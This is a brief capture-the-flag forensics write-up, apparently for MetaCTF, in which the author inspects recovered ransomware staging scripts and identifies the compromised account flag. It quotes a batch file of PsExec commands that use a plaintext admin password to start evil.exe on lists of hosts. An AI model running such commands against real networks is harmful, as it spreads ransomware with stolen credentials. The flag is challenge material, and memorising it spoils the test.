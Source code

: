 This file gave me a zip file from an incident. The challenge is to determine which user account was compromised, the user account is the flag.

Challenge info:
>Our security team has identified evidence of ransomware deployment staging in the network. We’re trying to contain and remediate the malicious operator’s deployment staging and access before the operator successfully spreads and executes ransomware within the environment. We’ve recovered some of the operator’s staging scripts and files. Can you help identify which user account’s credentials the operator had compromised and is planning to use to execute the ransomware?
>
>The flag format will be METAL\xxxxx 

After extracting the zip archive, it showed on folder name 'recovered files' and two other txt files.

![](run_1.png)

The text files contained a list of usernames, but nothing pointing at an IOC outside of some suspicious file names (copy.bat, exe.bat and wmi.bat). These files were located within the 'recovered files' folder. 

Looking into these files all contained psexec commands. exe,copy and wmi.bat were each for a different user. I tried entering the flag as the timq-admin user and it accepted it.

```sh
kali@kali-[~/boxes/ctfs/cybergames/just_wanna_run/incident017/recovered files]$cat exe.bat
start PsExec.exe -d @C:\share$\comps1.txt -u METAL\timq-admin> -p “Fall2021!” cmd /c c:\windows\temp\evil.exe
start PsExec.exe -d @C:\share$\comps2.txt -u METAL\timq-admin> -p “Fall2021!” cmd /c c:\windows\temp\evil.exe
start PsExec.exe -d @C:\share$\comps3.txt -u METAL\timq-admin> -p “Fall2021!” cmd /c c:\windows\temp\evil.exe
```

```sh
MetaCTF{METAL\timq-admin}
```